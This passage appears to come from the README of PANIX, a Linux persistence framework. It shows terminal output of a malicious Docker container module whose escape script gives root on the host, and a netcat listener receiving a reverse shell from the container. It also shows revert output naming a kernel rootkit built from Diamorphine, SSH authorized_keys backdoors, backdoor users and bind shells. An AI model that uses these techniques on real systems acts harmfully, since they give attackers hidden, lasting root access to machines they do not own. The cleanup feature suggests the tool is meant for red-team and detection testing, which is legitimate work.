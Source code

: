 ```
86ce6b00e872bb8c21d0dae21e747e830bb70b44ab7946558e563bf7f4b626ef
[+] Persistence through malicious Docker container complete.
[+] To escape the container with root privileges, run '/usr/local/bin/escape.sh'.
```
Which shows you exactly how to escape the container, and get access to the host.
```
❯ nc -nvlp 330
listening on [any] 330 ...
connect to [192.168.211.131] from (UNKNOWN) [192.168.211.130] 43400
86ce6b00e872:/$ /usr/local/bin/escape.sh
/usr/local/bin/escape.sh
root@ubuntu2204:~#
```

PANIX can clean its mess through the `--revert` command. Both for seperate modules:
```
ruben@ubuntu2204:~$ sudo ./panix.sh --revert rootkit

######################### [+] Reverting rootkit module... ######################### 

[+] Sending 'kill -63 0' to unload the rootkit module... 
[+] Signal sent successfully.
[+] Identifying loaded rootkit kernel modules in /dev/shm/.rk...
[+] Unloading rootkit rkit... 
[+] Kernel module 'rkit' unloaded successfully.
[+] Rootkit rkit unloaded successfully.
[+] Removing kernel module files from /dev/shm/.rk...
[+] Removed file: /dev/shm/.rk/restore_rkit.ko
[+] Removed directory: /dev/shm/.rk
[+] Removing downloaded files in /tmp...
[-] Directory not found: /tmp/diamorphine
[-] File not found: /tmp/diamorphine.zip
[+] Removed file: /tmp/diamorphine.tar
[-] Directory not found: /tmp/Diamorphine.git
[+] Reloading kernel modules...
[+] Kernel modules reloaded successfully.
```

And for all modules:
```
ruben@ubuntu2204:~$ sudo ./panix.sh --revert all

[+] Running full reversion with --revert-all...
[+] Reverting all modules...

######################### [+] Reverting revert_at... #########################

Error: 'at' binary is not present. Cannot revert 'at' jobs.
[-] Failed to revert revert_at. Exit Code: 1

######################### [+] Reverting revert_authorized_keys... #########################

[-] Backup file /root/.ssh/authorized_keys.bak not found. No changes made.
[+] revert_authorized_keys reverted successfully.

######################### [+] Reverting revert_backdoor_user... #########################

[+] No backdoor users found.
[+] revert_backdoor_user reverted successfully.

######################### [+] Reverting revert_bind_shell... #########################

[+] Searching for bind shell processes and killing them if present...
[+] revert_bind_shell reverted successfully.

```